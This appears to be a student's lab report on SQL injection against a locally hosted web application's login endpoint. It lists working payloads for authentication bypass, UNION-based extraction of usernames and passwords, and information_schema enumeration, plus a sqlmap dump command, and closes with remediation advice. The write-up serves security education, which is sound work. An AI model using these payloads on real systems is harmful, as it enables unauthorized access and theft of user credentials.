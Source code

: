 # FUTURE_CS_01
🔐 Web Application Security Assessment – SQL Injection Exploitation
Date:
July 7, 2025
 Conducted by:
Safik Rahman 
Cybersecurity Student

1. Introduction
This project demonstrates a real-world simulation of a SQL Injection vulnerability discovered and exploited in a sample web application. The test was conducted in a secure lab environment as part of a cybersecurity internship task. Other potential flaws like XSS and authentication issues were also explored.

2. Objective
The objective was to evaluate the security posture of the application by simulating penetration testing techniques.
The goal was to:

Identify SQL Injection vulnerabilities

Extract sensitive data

Maintain system integrity during testing

3. Tools & Environment

Operating System: Kali Linux

Manual Tools: Web Browser, Custom SQL Payloads

Automated Tool: sqlmap

Target Application: Localhost-hosted web application

4. Vulnerability Identified: SQL Injection

4.1 Entry Point

HTTP Method: POST

URL Endpoint: /rest/user/login

Vulnerable Parameters: email, password

4.2 Initial Payload Used
' OR '1'='1' --
This payload bypassed authentication by manipulating the SQL query logic and allowed login without valid credentials.

5. Exploitation Process

Step 1: Column Enumeration
Tested with:

' ORDER BY 1 --

' ORDER BY 2 --
These helped determine the number of columns used in the SQL query.

Step 2: Union Injection Confirmation
Payload: ' UNION SELECT 'test', 'output' --
This verified which columns could reflect data back to the user.

Step 3: Data Extraction
Payload: ' UNION SELECT username, password FROM users --
This allowed sensitive user data to be retrieved from the users table.

Step 4: Information Schema Usage (in case table/column names were unknown):

' UNION SELECT table_name, null FROM information_schema.tables --

' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users' --

Step 5: sqlmap Automation
Command used:
sqlmap -u "http://localhost:3000/rest/user/login" --data="email=test&password=test" --dump --batch
sqlmap automated the detection and extraction of database entries.

6. Recommendations
To prevent SQL Injection vulnerabilities in the future:

Use Parameterized Queries instead of dynamically building SQL with user input

Apply Input Validation and use allowlists for all inputs

Use ORM frameworks to abstract raw SQL

Add a Web Application Firewall (WAF) to monitor and block malicious input

Use Least Privilege Principle for database access

7. Conclusion
This assessment successfully demonstrated the presence of a high-impact SQL Injection vulnerability within the login module of a web application. Exploitation led to unauthorized access and data exposure. All activities were performed ethically in a controlled lab environment to raise awareness of secure coding practices.

Report by:
Safik Rahman 
Date: July 7, 2025
